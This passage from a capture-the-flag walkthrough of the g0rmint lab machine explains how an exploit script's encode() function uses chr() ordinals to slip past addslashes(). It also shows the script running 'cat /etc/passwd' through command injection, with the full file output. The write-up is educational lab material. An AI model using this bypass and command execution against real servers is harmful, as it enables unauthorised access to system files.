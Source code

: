 The real workhorse of the script is the `encode()` function. This function turns each ASCII characters of the command string into their ordinals. Each ordinal will go into the `chr()` function and concatenate back as a string. This is to bypass `addslashes()` that was present in `config.php`.

![addslashes](/assets/images/posts/g0rmint-walkthrough/g0rmint-15.png)

Simply supply the email, username and command as arguments and the script would display out the output. For example:

```
# ./exploit.sh w3bdrill3r@gmail.com 30e1a63a8968b727f276 "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
g0rmint:x:1000:1000:Noman Riffat,,,:/home/g0rmint:/bin/bash
mysql:x:108:117:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
```

### Backup Archive `/backup.zip` - Part 2

During enumeration, I spotted the presence of another `backup.zip` at `/var/www`:
